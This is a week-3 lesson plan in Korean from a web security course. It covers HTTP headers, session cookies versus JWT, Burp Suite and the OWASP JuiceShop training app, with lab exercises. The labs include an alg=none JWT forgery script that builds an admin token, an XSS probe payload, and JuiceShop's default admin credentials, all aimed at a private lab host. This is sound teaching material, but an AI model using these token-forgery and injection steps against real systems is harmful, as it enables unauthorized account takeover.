

# Week 03 — 웹 애플리케이션 구조 + Burp Suite + JuiceShop

> 웹 공격 (W04-W07) 의 전제는 **HTTP 요청·응답 흐름의 정확한 이해**. 본 주차는 HTTP
> 의 모든 핵심 (method / header / status / cookie / JWT / CORS / CSP) + Burp Suite
> proxy 사용 + JuiceShop 80+ challenge 의 구조를 다룬다. 이론 50% + 실습 50%.

## 학습 목표

학생은 본 주차 종료 시 다음을 수행할 수 있어야 한다.

1. **HTTP 9 method** + **40+ status code** 를 의미별로 분류한다
2. **HTTP header 15+** 의 보안 의미를 설명한다 (X-Frame / CSP / HSTS / SameSite ...)
3. **Burp Suite 7 도구** (Proxy / Repeater / Intruder / Decoder / Comparer /
   Sequencer / Scanner) 의 용도·사용법
4. **Session cookie vs JWT** 의 차이 + 각각의 보안 약점
5. **CORS / CSP / SameSite / HttpOnly / Secure** 5 보안 헤더의 역할
6. **JuiceShop REST API** 의 endpoint 매핑 + JWT decode
7. Burp Proxy 가 6v6 환경에서 ModSec / Wazuh 와 어떻게 상호작용하는가

## 강의 시간 배분 (3시간 40분)

| 시간      | 내용                                                                   | 유형 |
|-----------|------------------------------------------------------------------------|------|
| 0:00–0:30 | 이론 — HTTP method / status / header 핵심                               | 강의 |
| 0:30–1:00 | 이론 — Session cookie / JWT / OAuth 2 / OIDC 차이                       | 강의 |
| 1:00–1:10 | 휴식                                                                    | —    |
| 1:10–1:40 | 이론 — Burp Suite 7 도구 + Intruder 4 모드                              | 강의 |
| 1:40–2:00 | 이론 — CORS / CSP / SameSite / 모던 web 보안 헤더                       | 강의 |
| 2:00–2:30 | 실습 1, 2 — JuiceShop 진입 + REST API 매핑                              | 실습 |
| 2:30–2:40 | 휴식                                                                    | —    |
| 2:40–3:10 | 실습 3, 4 — JWT 디코드 + 변조 시뮬                                       | 실습 |
| 3:10–3:30 | 실습 5 — Burp Proxy + ModSec alert 추적                                  | 실습 |
| 3:30–3:40 | 정리 + W04 (SQLi) 예고                                                  | 정리 |

---

## 1. HTTP 의 모든 것 (10 분 정리)

### 1.1 HTTP method 9 종

| Method | 안전(safe) | Idempotent | Cacheable | 의미 |
|--------|-----------|------------|-----------|------|
| **GET** | ✓ | ✓ | ✓ | 자원 조회 (변경 없음) |
| **HEAD** | ✓ | ✓ | ✓ | header 만 (body 없음) |
| **POST** | ✗ | ✗ | only with explicit cache | 자원 생성 / 명령 실행 |
| **PUT** | ✗ | ✓ | ✗ | 전체 갱신 (없으면 생성) |
| **PATCH** | ✗ | ✗ | ✗ | 부분 갱신 |
| **DELETE** | ✗ | ✓ | ✗ | 삭제 |
| **OPTIONS** | ✓ | ✓ | ✗ | CORS preflight |
| **CONNECT** | ✗ | ✗ | ✗ | TCP tunnel (HTTPS proxy) |
| **TRACE** | ✓ | ✓ | ✗ | echo (디버그, **보안상 비활성 권장**) |

**용어**:
- **Safe** = 서버 상태 변경 없음 (조회만)
- **Idempotent** = 여러 번 호출해도 결과 동일 (PUT a; PUT a; ≡ PUT a;)
- **Cacheable** = 응답을 캐시 가능

**보안 시점**:
- TRACE → XST (Cross-Site Tracing) 공격 가능 → 즉시 비활성
- OPTIONS → CORS preflight 응답에 허용 method 노출 → 정찰 정보
- PUT / DELETE → 잘못 노출 시 데이터 변조·삭제 가능

### 1.2 HTTP status code 40+

```
1xx — Informational
  100 Continue
  101 Switching Protocols (WebSocket upgrade)

2xx — Success
  200 OK
  201 Created (POST 후 자원 생성)
  202 Accepted (async 작업)
  204 No Content (DELETE 응답)

3xx — Redirection
  301 Moved Permanently (영구 redirect, SEO)
  302 Found (임시 redirect — login 후)
  304 Not Modified (cache hit)
  307 Temporary Redirect (method 보존)
  308 Permanent Redirect (method 보존)

4xx — Client Error
  400 Bad Request
  401 Unauthorized (인증 안 됨)
  403 Forbidden (인증 됐으나 권한 없음 / ModSec 차단)
  404 Not Found
  405 Method Not Allowed (잘못된 method)
  409 Conflict
  413 Payload Too Large
  418 I'm a teapot (HTCPCP / 농담 코드)
  422 Unprocessable Entity
  429 Too Many Requests (rate limit — Wazuh API 의 W01)

5xx — Server Error
  500 Internal Server Error
  502 Bad Gateway (HAProxy backend down)
  503 Service Unavailable
  504 Gateway Timeout
```

**공격자 시점**:
- 401 vs 403 차이 → enumeration 단서 (user 존재 여부 추론)
- 500 의 stack trace → 정보 노출 (CWE-209)
- 502/503 → backend 식별 (HAProxy / Nginx / etc)

### 1.3 HTTP header 15+ (보안 관련)

#### 요청 헤더 (Client → Server)

| Header | 의미 | 공격 활용 |
|--------|------|----------|
| `User-Agent` | client 종류 | sqlmap / nikto detect 단서 |
| `Cookie` | session token | hijack 대상 (W05 XSS) |
| `Authorization` | Bearer JWT / Basic auth | 변조 대상 (W06) |
| `Content-Type` | body 형식 | XXE / file upload 우회 (W07) |
| `Host` | 가상 호스트 | HAProxy 라우팅 (vhost) |
| `Referer` | 출처 페이지 | CSRF 대상 |
| `Origin` | CORS 검증 키 | CORS 우회 시도 |
| `X-Forwarded-For` | proxy chain | IP 위조 |
| `Accept-Language` | 언어 | 응용 분기 식별 |

#### 응답 헤더 (Server → Client) — 보안 5 종

| Header | 효과 | 정상 값 |
|--------|------|--------|
| `Strict-Transport-Security` (HSTS) | HTTPS 강제 | `max-age=31536000; includeSubDomains` |
| `Content-Security-Policy` (CSP) | XSS / data injection 차단 | `default-src 'self'` |
| `X-Frame-Options` | clickjacking 차단 | `DENY` 또는 `SAMEORIGIN` |
| `X-Content-Type-Options` | MIME sniffing 차단 | `nosniff` |
| `Referrer-Policy` | Referer 노출 제어 | `no-referrer-when-downgrade` |
| `Permissions-Policy` | 브라우저 기능 제한 | `geolocation=(), camera=()` |

#### 응답 헤더 — Set-Cookie 보안

```
Set-Cookie: sessionid=abc123; HttpOnly; Secure; SameSite=Strict; Path=/; Max-Age=3600
```

- `HttpOnly` : JS 의 document.cookie 접근 차단 (XSS 도용 방지)
- `Secure` : HTTPS 만 전송
- `SameSite=Strict` : cross-site 시 전송 안 함 (CSRF 차단)
- `SameSite=Lax` : top-level GET 만 전송 (default 모던 브라우저)
- `SameSite=None; Secure` : 모든 cross-site 전송 (3rd party)

---

## 2. Session vs JWT vs OAuth — 인증 토큰의 진화

### 2.1 Session-based (1990년대 ~ 현재)

```
1. 사용자 로그인 → 서버가 sessionId 생성 + DB 저장
2. Set-Cookie: PHPSESSID=abc123
3. 후속 요청: Cookie: PHPSESSID=abc123
4. 서버가 DB lookup → 사용자 확인
```

**장점**: 즉시 무효화 가능 (서버 측 DB).
**단점**: 모든 요청에 DB lookup → 확장 어려움. session 동기화 필요 (multi-server).

**약점**:
- Session fixation (URL 의 sessionId 노출)
- Session hijacking (XSS 로 도용)

### 2.2 JWT (JSON Web Token) — 2015 표준 RFC 7519

```
JWT = base64url(header).base64url(payload).base64url(signature)

Header:    {"alg":"HS256","typ":"JWT"}
Payload:   {"sub":"1234","name":"admin","iat":...,"exp":...}
Signature: HMACSHA256(base64(header)+"."+base64(payload), secret)
```

**장점**:
- Stateless (서버 측 저장 X)
- 분산 환경 친화 (multi-server / microservice)
- 표준화 (RFC 7519)

**단점**:
- 즉시 무효화 어려움 (서버가 token 모름 → blacklist 필요)
- payload 평문 (암호화 X — base64 만)
- token 크기 큼 (cookie 보다)

**보안 약점** (W06 에서 다룸):
- `alg: none` 우회 → header 의 alg 를 "none" 으로 변조
- 약한 secret → brute (`hashcat -m 16500`)
- `kid` 헤더의 path traversal
- RS256/HS256 algorithm confusion

### 2.3 OAuth 2.0 + OIDC — 위임 인증

```
사용자 → "Google 로 로그인"
        │
        ▼
Google (Auth Server) → 사용자 인증 → authorization code
        │
        ▼
App (Resource Server) ← authorization code → access token (JWT)
```

- **OAuth 2.0** : 권한 위임 (authorization)
- **OpenID Connect (OIDC)** : 위에 인증 (authentication) 추가

본 과목 외 (course7 / course10).

---

## 3. Burp Suite — 웹 침투의 표준

### 3.1 역사 + 버전

- **2003** : Dafydd Stuttard (PortSwigger) — Java applet 으로 시작
- **2008** : Burp Suite 1.0 (Professional)
- **2017** : Burp Suite 2.0 + Community 무료 버전
- **2024** : Enterprise (CI/CD 통합) + Professional + Community

| Edition | 가격 | 차이 |
|---------|------|------|
| Community | 무료 | Proxy / Repeater / 일부 제한 |
| Professional | $449/년 | Intruder 속도 무제한 + Scanner + 모든 도구 |
| Enterprise | $3000+/년 | CI/CD 통합 + 무인 스캔 |

본 과목: **Community** 만 사용.

### 3.2 핵심 7 도구

#### 3.2.1 Proxy

```
브라우저 → Burp Proxy (127.0.0.1:8080) → target server
                │
                ▼
            request capture + modify + forward
```

**용도**: 모든 HTTP 트래픽 가로채기 + 분석 + 변조.
**핵심 옵션**:
- Intercept ON/OFF (default ON 시 모든 요청 hold)
- HTTPS 의 경우 Burp CA 를 브라우저에 import 필요

#### 3.2.2 Repeater

```
Proxy 의 request → Repeater 로 send (Ctrl+R)
    │
    ▼
같은 request 의 변형 반복 (payload 수정 → Send → 응답 비교)
```

**용도**: SQLi / XSS payload 변형 시도. 응답 자동 저장 (history).

#### 3.2.3 Intruder

```
4 모드:
  1. Sniper      : single payload list × single position
                   (예: id=FUZZ 의 id 값 brute)
  2. Battering ram: single payload × multiple positions (같은 값)
  3. Pitchfork   : multiple payload lists × multiple positions
                   (예: user=^USER^&pass=^PASS^ 동시)
  4. Cluster bomb: 모든 조합 (cartesian)
                   (예: user=admin × pass=common 의 모든 조합)
```

**용도**: 자동 fuzzing / brute force.

#### 3.2.4 Decoder

```
지원 변환:
- URL (decode + encode)
- HTML entity
- Base64
- ASCII hex
- Hex (raw)
- Octal / Binary
- Gzip
- HMAC-SHA-256 / MD5 / SHA-1 등 hash
```

**용도**: 페이로드 변형 + 응답 디코드.

#### 3.2.5 Comparer

두 응답을 word/byte 단위 diff. SQLi 의 boolean blind 결과 차이 분석에 핵심.

#### 3.2.6 Sequencer

session token / CSRF token 의 무작위성 (entropy) 분석. 예측 가능한 토큰 검출.

#### 3.2.7 Scanner (Professional 전용)

자동 vuln 스캔. SQLi / XSS / CSRF / 등 자동 detect. Community 에서는 비활성.

### 3.3 Burp Proxy 설정 (학생 PC)

```
1. 학생 PC 에 burpsuite_community 설치 (https://portswigger.net/burp/communitydownload)
2. java -jar burpsuite_community.jar 실행
3. Proxy → Proxy settings → Listeners → 127.0.0.1:8080 확인
4. 브라우저 의 proxy 를 127.0.0.1:8080 으로 설정
   - Firefox: Settings → Network Settings → Manual proxy
   - Chrome: 외부 도구 (FoxyProxy 확장)
5. HTTPS 검증: http://burpsuite/cert → cacert.der 다운로드 →
   Firefox: Certificates → Authorities → Import → trust this CA
6. Proxy → Intercept ON
7. 브라우저로 http://juice.6v6.lab/ → Burp 가 capture
```

### 3.4 Burp 의 ModSec / Wazuh 상호작용

**중요**: Burp Proxy 를 사용해도 트래픽은 여전히 fw → ips → web 통과. ModSec 가 차단하면
Burp 에 403 응답 보임. Wazuh / Suricata 도 alert.

**즉, Burp 는 학생 PC 측 도구일 뿐, 6v6 의 secuops detection 을 우회하지 않는다.**

---

## 4. 모던 웹 보안 헤더 5 종 상세

### 4.1 CSP (Content Security Policy)

```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'; style-src 'self' 'unsafe-inline'; img-src *
```

각 directive:
- `default-src 'self'` : 모든 자원의 default origin = 자기 도메인
- `script-src` : JS 허용 source
- `style-src` : CSS 허용 source
- `img-src *` : 이미지 모든 곳 (less restrictive)
- `'nonce-abc123'` : 일회용 token (XSS 시 도용 불가)
- `'unsafe-inline'` : inline 허용 (위험 — 가능한 nonce/hash 권장)
- `'unsafe-eval'` : eval() 허용 (위험)

**XSS 차단 효과**:
```html
<!-- payload -->
<script>alert(1)</script>
<!-- CSP 가 차단 시 -->
Refused to execute inline script because it violates CSP directive: "script-src 'self'"
```

**우회 가능성** (W05 에서 다룸):
- `'unsafe-inline'` 허용 시 모든 XSS 가능
- JSONP / open redirect 의 자기 도메인 endpoint 악용
- nonce 의 유출 (HTML 내 노출 → 도용)

### 4.2 CORS (Cross-Origin Resource Sharing)

```
요청:  Origin: https://attacker.com
응답:  Access-Control-Allow-Origin: https://trusted.com
       Access-Control-Allow-Credentials: true
       Access-Control-Allow-Methods: GET, POST
       Access-Control-Allow-Headers: Content-Type, Authorization
```

**3 모드**:
- `Origin: *` : 모든 origin 허용 (cookie 미전송 — 안전)
- `Origin: https://specific.com` : 1 origin 만
- `Origin: *` + `Credentials: true` : **불가** (브라우저 거부)

**약점**:
- regex 매칭 시 `attacker.com.victim.com` 매치 가능
- `null` origin 허용 (sandbox iframe 우회)
- `Access-Control-Allow-Origin: *` 인데 credentials 도 요구 (잘못된 구성)

### 4.3 SameSite Cookie

```
Set-Cookie: id=abc; SameSite=Strict        # 모든 cross-site 차단
Set-Cookie: id=abc; SameSite=Lax           # top-level GET 만 허용 (default 2020+)
Set-Cookie: id=abc; SameSite=None; Secure  # 모든 cross-site 허용 (3rd party 필수)
```

**CSRF 차단 효과**: Strict 또는 Lax 면 attacker 사이트의 form 으로부터 cookie 미전송.

### 4.4 HSTS (HTTP Strict Transport Security)

```
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

- 첫 HTTPS 응답 후 1년간 HTTP 거부 (HTTPS 강제)
- `includeSubDomains` : 하위 도메인도 적용
- `preload` : 브라우저 빌트인 list 등록 (Chrome / Firefox 의 HSTS preload list)

**약점**: 첫 방문은 HTTP 가능 (MITM 가능) → preload list 등록으로 해결.

### 4.5 X-Frame-Options + Frame-Ancestors

```
X-Frame-Options: DENY            # iframe 임베드 거부
X-Frame-Options: SAMEORIGIN      # 같은 origin 만
# CSP 의 frame-ancestors 가 모던 표준
Content-Security-Policy: frame-ancestors 'self'
```

**Clickjacking 차단**: attacker 사이트가 victim 페이지를 iframe 으로 임베드 + 투명 layer
+ click 가로채기 → buying / posting / etc.

---

## 5. JuiceShop 상세

### 5.1 역사 + 기술 스택

```
역사:    2014 Björn Kimminich (OWASP 공식)
라이선스: MIT
기술:    Angular 16+ SPA + Node.js (Express) + SQLite (default) / PostgreSQL
크기:    80+ challenge (지속 추가)
```

### 5.2 80+ challenge 카테고리

| 카테고리 | challenge 수 | 본 과목 매핑 |
|----------|---------------|--------------|
| Broken Authentication | 10+ | W06 |
| Sensitive Data Exposure | 10+ | (정보 노출 분석) |
| Broken Access Control | 10+ | W06 IDOR |
| Injection (SQL/NoSQL/XSS) | 15+ | W04 SQLi / W05 XSS |
| Security Misconfiguration | 5+ | W07 |
| Cryptographic Issues | 5+ | (별 과정) |
| XSS | 5+ | W05 |
| Improper Input Validation | 10+ | W04-07 |
| API Security | 5+ | (W03 의 IDOR 기반) |
| Vulnerable Components | 5+ | (W02 정찰 시 발견) |

### 5.3 score-board 발견 (첫 challenge)

```
JuiceShop 은 score-board 를 hidden URL 로 두고 학생이 발견하게 한다.
힌트:
1. /api/Challenges 호출 → 모든 challenge list 노출
2. /#/score-board 직접 접근
3. SPA route 의 main.js 분석 (Angular 의 router config)
```

### 5.4 핵심 REST API endpoints

```
GET  /api/Products               # 제품 목록 (인증 불필요)
GET  /api/Users                  # 사용자 목록 (IDOR 시 권한 우회)
GET  /api/Users/N                # 특정 사용자 (IDOR)
GET  /api/Challenges             # 모든 challenge (score-board 발견)
POST /rest/user/login            # 로그인 → JWT 발급
GET  /rest/user/whoami           # 현재 user (JWT 의 sub 반환)
POST /rest/feedback              # 피드백 (Stored XSS 가능)
GET  /api/Quantities             # 재고 (admin 권한 — IDOR / 권한 우회)
POST /api/BasketItems            # 장바구니 추가 (수량 음수 → 가격 음수 변조 가능)
GET  /ftp                        # 정적 파일 (sensitive — sensitive data exposure)
```

### 5.5 default credentials

```
관리자: admin@juice-sh.op / admin123
일반:   jim@juice-sh.op / ncc-1701
지원:   bender@juice-sh.op / OhG0dPlease1nsertLiquor!
```

본 과목 학습용 — 모두 알려진 default. 실 환경에서는 즉시 변경.

---

## 6. ATT&CK 매핑 (W03)

| Technique | 본 주차 내용 |
|-----------|--------------|
| T1190 | Exploit Public-Facing Application — JuiceShop |
| T1190.001 | API endpoint enumeration |
| T1078.004 | Valid Accounts - Cloud (JWT 의 사용) |
| T1592.002 | Gather Victim Host Information - Software (Burp 의 응답 분석) |

---

## 7. R/B/P 시나리오 — Burp Proxy 통한 JuiceShop 분석



**해석**:
- Burp Proxy 는 학생 PC 측 도구 — 6v6 인프라의 secuops 우회 안 함
- 정상 트래픽 (login 등) 은 alert 발생 안 함
- 공격 페이로드 (SQLi/XSS) 시 ModSec / Suricata / Wazuh 즉시 alert
- 본 주차의 R/B/P 는 학습 위주 — W04+ 에서 본격 alert 발생

---

## 8. 실습 1~5

### 실습 1 — JuiceShop API 매핑

```bash
# JuiceShop 의 메인 페이지 (HTML SPA)
ssh 6v6-attacker '
echo "=== / (HTML SPA) ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/ | head -30
'

# REST API endpoints 5 종 응답 분석
ssh 6v6-attacker '
echo "=== /api/Products ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/api/Products | jq ".data | length"

echo "=== /api/Users ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/api/Users | jq ".data | length"

echo "=== /api/Challenges ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/api/Challenges | jq ".data | length"

echo "=== /rest/admin/application-version ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/rest/admin/application-version

echo "=== /ftp/ (sensitive data exposure!) ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/ftp/ | head -10
'
```

**예상 결과 분석**:
- `/api/Products` → 30+ 제품 (정상 노출)
- `/api/Users` → 인증 안 했어도 user 정보 노출 가능 (IDOR 단서)
- `/api/Challenges` → 80+ challenge 모두 표시 (score-board 발견)
- `/rest/admin/application-version` → version 노출 (정보 누출 — sensitive)
- `/ftp/` → 디렉토리 listing → sensitive 파일 노출 가능

### 실습 2 — score-board 발견 (첫 challenge)

```bash
# /api/Challenges 의 응답 → 모든 challenge 의 name + solved 상태
ssh 6v6-attacker '
echo "=== score-board challenge 정보 ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/api/Challenges 2>&1 | \
    jq ".data[0:5] | .[] | {name, category, difficulty, solved}"
'

# score-board 직접 접근
ssh 6v6-attacker '
echo "=== /#/score-board 접근 ==="
curl -s -H "Host: juice.6v6.lab" http://10.20.30.1/ | grep -o "scoreboard\|score-board" | head
'
```

### 실습 3 — 로그인 + JWT 발급 + 디코드

```bash
ssh 6v6-attacker '
# 1단계: admin 으로 로그인 → JWT 발급
echo "=== 1. Login ==="
RESP=$(curl -s -X POST \
    -H "Host: juice.6v6.lab" \
    -H "Content-Type: application/json" \
    -d "{\"email\":\"admin@juice-sh.op\",\"password\":\"admin123\"}" \
    http://10.20.30.1/rest/user/login)
echo "$RESP" | jq

# 2단계: JWT 만 추출
JWT=$(echo "$RESP" | jq -r ".authentication.token // empty")
echo ""
echo "=== 2. JWT (3-part) ==="
echo "$JWT"

# 3단계: header 디코드
echo ""
echo "=== 3. Header decode ==="
echo "$JWT" | cut -d. -f1 | base64 -d 2>/dev/null | jq

# 4단계: payload 디코드
echo ""
echo "=== 4. Payload decode ==="
echo "$JWT" | cut -d. -f2 | base64 -d 2>/dev/null | jq

# 5단계: signature (binary — 디코드 불가)
echo ""
echo "=== 5. Signature (base64url) ==="
echo "$JWT" | cut -d. -f3
'
```

**예상 출력 분석**:
```json
// Header (1번째 부분)
{
  "alg": "RS256",       // RSA SHA-256 (이 lab 의 JuiceShop)
  "typ": "JWT"
}

// Payload (2번째 부분)
{
  "status": "success",
  "data": {
    "id": 1,
    "email": "admin@juice-sh.op",
    "role": "admin",
    "deluxeToken": "",
    "lastLoginIp": "..."
  },
  "iat": 1715512345,
  "exp": 1715534345     // 6시간 후 만료
}
```

**보안 관찰**:
- `alg: RS256` → 공개키 검증 (HS256 보다 안전)
- payload 에 `role: admin` 직접 노출 → 변조 시도 가능 (W06)
- exp 6시간 → 짧지 않음 (운영 시 1시간 권장)

### 실습 4 — JWT 변조 시뮬 (W06 미리보기)

```bash
ssh 6v6-attacker '
# 변조 시도 1: alg=none 으로 변조
HEADER=$(echo -n "{\"alg\":\"none\",\"typ\":\"JWT\"}" | base64 -w0 | tr "+/" "-_" | tr -d "=")
PAYLOAD=$(echo -n "{\"data\":{\"id\":1,\"email\":\"admin@juice-sh.op\",\"role\":\"admin\"},\"iat\":1715512345,\"exp\":9999999999}" | base64 -w0 | tr "+/" "-_" | tr -d "=")
FAKE_JWT="${HEADER}.${PAYLOAD}."
echo "변조 JWT: $FAKE_JWT"

# 변조 JWT 로 인증 시도
echo ""
echo "=== 변조 JWT 인증 시도 ==="
curl -s -o /dev/null -w "%{http_code}\n" \
    -H "Authorization: Bearer $FAKE_JWT" \
    -H "Host: juice.6v6.lab" \
    http://10.20.30.1/rest/user/whoami

# 결과:
# 200 → alg=none 우회 성공 (취약 — 즉시 보고)
# 401 → JWT 라이브러리가 strict alg 적용 (안전)
'
```

### 실습 5 — Burp Proxy + ModSec alert 추적

(학생 PC 의 Burp 사용. 실 실행은 GUI 필요)

```
1. Burp Suite Community 실행 (학생 PC)
2. Proxy → Intercept ON
3. 브라우저 proxy 127.0.0.1:8080 설정
4. http://juice.6v6.lab/?q=<script>alert(1)</script> 입력
5. Burp 의 Intercept 에 request 가로채기됨
6. request 의 Host header / URL / cookie 확인
7. Forward 버튼 → 서버 응답 확인
8. 응답: ModSec 의 403 page (HTML)
9. 동시에 web 의 modsec_audit.log 확인:
```

```bash
# 본인의 학생 PC IP 로 발생한 modsec alert
ssh 6v6-web '
sudo tail -10 /var/log/apache2/modsec_audit.log | head -1 | \
    jq ".transaction.messages[] | select(.id | startswith(\"941\")) | {id, msg, data}"
'

# 예상 출력:
# {"id":"941100","msg":"XSS Attack Detected via libinjection",...}
# {"id":"949110","msg":"Inbound Anomaly Score Exceeded (Total Score: 15)",...}
```

**R/B/P 인사이트**:
- Burp 는 학생 PC 도구 — secuops 의 detection 우회 안 함
- 페이로드를 보낸 순간 ModSec / Wazuh 즉시 alert
- 운영 환경 침투 시: Burp 사용 자체가 자동 detect 안 되지만, payload 가 시그니처 매치 시 즉시 detect

---

## 9. ATT&CK + OWASP 통합 매핑

```
- T1190 Exploit Public-Facing Application
  ↓ 본 과목
  W04 SQLi → OWASP A03 Injection
  W05 XSS → OWASP A03
  W06 IDOR → OWASP A01 Broken Access Control
  W06 JWT none → OWASP A07 Auth Failures
  W07 SSRF → OWASP A10
```

---

## 10. 과제

### A. JuiceShop API 매핑 (필수, 40점)

다음 모두 포함:
1. JuiceShop 의 10+ endpoint + method + 응답 구조 표
2. 각 endpoint 의 인증 필요 여부 (cookie / JWT / 없음)
3. 응답 의 sensitive data 노출 분석 (있다면)

### B. JWT 디코드 + 변조 시뮬 (심화, 30점)

JuiceShop 의 JWT 의 header / payload / signature 분석 + alg=none 변조 시도 +
결과 (200 또는 401).

### C. CSP / SameSite 검토 (정성, 30점)

JuiceShop 의 응답 헤더 분석:
- CSP 의 directive 분석 (어느 source 허용?)
- SameSite cookie 의 정책 분석
- XSS / CSRF 회피 가능성 평가

---

## 11. 평가 기준

| 항목 | 비중 |
|------|------|
| API 매핑 (A) | 40% |
| JWT 디코드 (B) | 30% |
| 보안 헤더 검토 (C) | 30% |

---

## 12. 핵심 정리 (10 줄)

1. **HTTP method 9 종** — GET/POST 외 PUT/DELETE/OPTIONS/TRACE 등의 보안 영향
2. **status code 40+** — 401 vs 403, 502 (HAProxy backend down) 등 의미
3. **header 15+ 보안** — HSTS / CSP / X-Frame / Cookie 의 5 속성
4. **Session vs JWT** — stateless 의 trade-off + 6 약점
5. **Burp 7 도구** — Proxy / Repeater / Intruder 4 모드 / Decoder / Comparer
6. **JuiceShop 80+ challenge** + REST API endpoint 매핑
7. **JWT 3-part** decode (base64url 변환)
8. **W03 R/B/P** — Burp 는 학생 PC 도구, secuops detection 우회 안 함
9. **ATT&CK T1190** + OWASP A01/A03/A07/A10 매핑
10. **W04 (SQLi)** 다음 주차 — sqlmap + DVWA + libinjection 우회
